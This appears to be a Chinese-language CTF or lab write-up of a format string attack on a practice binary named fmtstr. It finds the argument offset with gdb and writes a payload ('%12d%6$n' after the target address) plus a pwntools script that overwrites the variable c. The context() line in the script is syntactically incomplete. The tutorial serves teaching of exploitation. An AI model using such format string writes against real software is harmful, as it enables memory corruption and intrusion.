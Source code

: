 #### 确定覆盖地址

程序直接输出了 c 的地址，这步跳过

#### 确定相对偏移

用gdb打开，使用的 fmtarg 得到偏移为 6

![fmtstr-offset2.png](./assets/fmtstr-offset2.png)

#### 进行覆盖

由于 c 的地址长度为 4 ，构造 payload 如下

~~~c
[addr of c]%012d%6$n
~~~

exp：
~~~python
from pwn import *

context(arch='i386',os='linux',log_level)

p = process('./fmtstr')

c_addr = int(p.recvuntil('\n',drop=True),16)

payload = p32(c_addr) + b'%12d%6$n'

p.sendline(payload)
~~~

结果如下：

![fmtstr-res.png](./assets/fmtstr-res.png)
